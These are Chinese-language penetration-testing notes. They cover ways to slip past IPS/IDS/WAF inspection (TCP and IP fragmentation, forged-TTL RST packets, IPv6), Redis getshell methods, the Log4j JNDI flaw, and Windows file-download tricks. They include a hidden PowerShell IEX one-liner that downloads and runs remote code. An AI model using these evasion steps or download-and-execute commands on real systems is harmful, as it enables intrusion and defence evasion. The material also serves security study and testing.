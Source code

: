 #### 绕过思路
1. TCP分片
  一些IPS是字节级逐包检查的，并没有实现TCP分片重组能力，那就把关键字拆到两个TCP包里面就可以暗度陈仓。
  有的IPS虽然有TCP分片重组能力，但是超时就不会再检查了，所以设置这个sleep的时间超过IPS的分片重组超时值而又没有达到操作系统和Web Server的超时值，那就可以绕过。
<a href="https://smms.app/image/7GCwVLDKzMjYHhS" target="_blank"><img src="https://s2.loli.net/2024/03/21/7GCwVLDKzMjYHhS.png" ></a>
2. IP分片
  构造IP包就需要用到Python下的组件Scapy，TCP三次握手后用Scapy的fragment函数按600字节一个拆分发送IP分片包（当然也可以把syn包也分片）
  但是实测有些路由会丢弃MTU比较小的IP包。
  nmap有一个规避FW/IDS的功能就是利用IP分片进行端口扫描，参数是-f，可以用--mtu设置分片大小，最小的值是8。
3. DOS攻击
4. 伪造TCP状态（fuzz）
  基于状态跟踪的IPS ———— 简单测试检测模式，不建立TCP连接直接发HTTP请求，如果还有响应的IPS就是包过滤，反之则是状态跟踪。
  建立TCP连接后，我们可以**发送一个定制TTL值的rst包，这个TTL值正好能够经过IPS但不会到达服务端，IPS基于状态跟踪会认为这个TCP连接已断开，后续的各种包都不会去检测，但服务端不受影响会继续等待ack包来。**
5. IPv6绕过
  正在服役的IDS/IPS/WAF不一定支持，于是可以畅行无阻。

## Redis getshell
#### Linux
- 通过向Web目录中写webshell的方式进行getshell
- 通过写SSH key的方式进行getshell
- 通过写corntab的方式进行getshell

#### Windows
- 利用powershell反弹shell
- 利用mshta.exe

## Log4j漏洞原理
  主要原理是利用log4j2的日志输出jndi远程对象时，调用远程对象没做检查导致。
  当用户浏览器注入变量，后台应用程序对变量做了日志输出就会发生远程对象的调用，远程对象又没有经过检查，直接在我们的应用程序中运行。
<a href="https://smms.app/image/4zeJSlKdGMHFs6C" target="_blank"><img src="https://s2.loli.net/2024/03/21/4zeJSlKdGMHFs6C.png" ></a>

## [数据库利用姿势](https://github.com/safe6Sec/PentestDB)

## Windows远程文件下载
#### PowerShell
```
Invoke-WebRequest -Uri 目标url -OutFile 目标文件位置

powershell (new-object System.Net.WebClient).DownloadFile('目标文件地址','保存路径文件名')

远程执行命令：
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('目标文件地址'))"
```

#### Bitsadmin
  BITSAdmin用于创建、下载和上传作业，监视其进度。Windows7及以后的系统自带BitsAdmin工具。
```
bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt 
// 创建一个名为test的bitsadmin任务，从192.168.1.1:8000下载1.txt,保存为c:\users\mytools\a.txt
```
